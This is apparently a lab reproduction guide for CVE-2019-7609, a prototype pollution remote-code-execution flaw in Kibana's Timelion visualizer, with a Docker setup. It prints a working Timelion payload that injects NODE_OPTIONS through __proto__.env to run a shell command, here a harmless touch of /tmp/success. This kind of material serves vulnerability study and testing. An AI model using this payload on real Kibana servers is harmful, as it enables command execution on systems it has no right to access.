


Kibana Prototype Pollution Leads to Remote Code Execution (CVE-2019-7609)¶
Kibana is an open source data visualization dashboard for Elasticsearch.
Kibana versions before 5.6.15 and 6.6.1 contain an arbitrary code execution flaw in the Timelion visualizer. An attacker with access to the Timelion application could send a request that will attempt to execute javascript code. This could possibly lead to an attacker executing arbitrary commands with permissions of the Kibana process on the host system.
References:
- https://nvd.nist.gov/vuln/detail/CVE-2019-7609
- https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/
- https://slides.com/securitymb/prototype-pollution-in-kibana/#/4
Setup¶
Before you can setup the environment, you need to change vm.max_map_count to greater than 262144 in host server (not in the docker container):
sysctl -w vm.max_map_count=262144
Then, start the Kibana 6.5.4 and Elasticsearch 6.8.6:
docker compose up -d
Vulnerability Reproduce¶
After started the environment, the Kibana is listening on http://your-ip:5106. The prototype pollution is happens in Timeline visualizer, fill in following payload here:
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("/bin/touch /tmp/success");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')

Then, visit "Canvas" page to trigger the command /bin/touch /tmp/success. The file /tmp/success is created successfully:
